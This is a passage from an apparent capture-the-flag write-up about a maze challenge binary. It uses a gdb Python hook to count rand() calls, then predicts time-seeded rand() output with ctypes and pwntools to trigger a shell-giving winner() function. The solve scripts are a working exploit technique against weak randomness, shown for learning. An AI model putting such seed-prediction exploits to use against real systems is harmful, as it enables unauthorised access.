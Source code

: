 {{< image src="./img/break.png" alt="" position="center" style="border-radius: 5px;" >}}

Then, we set a breakpoint at `rand()`, and write a simpe python counter to keep track of how many times `rand()` was called (which was how many times the breakpoint was triggered)

```py
python
counter = 0

def breakpoint_handler(event):
    global counter
    counter += 1
    print(f"srand called. total times called: {counter}")

gdb.events.stop.connect(breakpoint_handler)
end
```

{{< image src="./img/gdbpythoncool.png" alt="" position="center" style="border-radius: 5px;" >}}

And we find `generate_maze()` hits the breakpoint `590` times (the `591` in the bottom of image is when it hits the breakpoint after `generate_maze()` in `main()`, so doesn't count).

Now that we have the amount of times `rand()` is called, we can simulate this in python to predict what number the next `rand()` call will yield.

```py
from ctypes import CDLL

libc = CDLL("./libc.so.6")
libc.srand(int(time.time()))

def callrand():
    return libc.rand() % 1213

# simulate rand() calls in generate_maze()
for _ in range(590):
    callrand()

callrand() # the initial random message it sends

...

for moves in solution:
    callrand() # simulate rand() call in the random message we get after every input
    p.sendline(moves)
```

Now, after integrating the random calls into our solve script, we can stop before exiting the maze, keep calling `rand()` by submitting an invalid input, until the next `callrand()` we simulate yields `1212`. When it does, we can finally exit the maze, and `winner()` should be called, giving us a shell!

```py
lastmove = solution[-1]

for moves in solution[:-1]: # do all moves except last
    callrand() # simulate rand() call in the random message we get after every input
    p.sendline(moves)

nextrand = callrand()
while not nextrand == 1212:
    p.sendline(b"x") # send invalid input to call rand()
    nextrand = callrand()

p.sendline(lastmove)

p.interactive()
```